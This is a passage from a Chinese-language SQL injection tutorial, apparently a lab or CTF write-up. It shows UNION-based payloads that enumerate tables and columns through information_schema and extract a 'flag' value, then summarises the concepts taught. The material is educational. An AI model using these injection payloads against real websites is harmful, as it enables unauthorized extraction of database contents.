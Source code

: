 构建payload
`?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='sqli23333' %23`
就可以得到所有表名
![6](6.png)

#### 查询表的所有列名
根据
 - information_schema的表columns中的列table_schema记录了所有数据库的名字
 - information_schema的表columns中的列table_name记录了所有数据库的表的名字
 - information_schema的表columns中的列column_name记录了所有数据库的表的列的名字

构建payload
`?id=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='flag' %23`
就可以得到所有列名
#![7](7.png)

#### 查询实际数据
经过上面，我们就知道了所有数据库名、表名、列名
那么我们就可以很轻松的构建查询语句，得到想要的数据
`?id=0' union select 1,2,group_concat(flag) from flag %23`
![8](8.png)


#### 总结
上面涉及到以下知识点内容
 - 如何判断注入点
   - 什么是引号闭合SQL语句(内联式)
   - LIMIT是什么
   - 分析where语句中的运算
 - 得到列数
   - 终止式注入
   - GET请求中注释符的使用注意点
   - 为什么order by能确定列数
 - 联合查询
   - 联合查询是什么
   - union的注意点
   - 怎么利用联合查询回显想要查询的数据
   - 为什么要id=0
 - 查询数据库版本、名
   - MYSQL中version()和database()
 - 查询所有数据库名
   - information_schema库是什么
   - 里面存有什么
   - 怎么利用他得到数据内容
   - 当页面中只回显一条记录，但是查询了多条数据(group_concat()的使用)

<br>
### num
由于白盒测试，能看见执行的SQL语句。根据sql语句，我们直接能判断是数字型的注入。
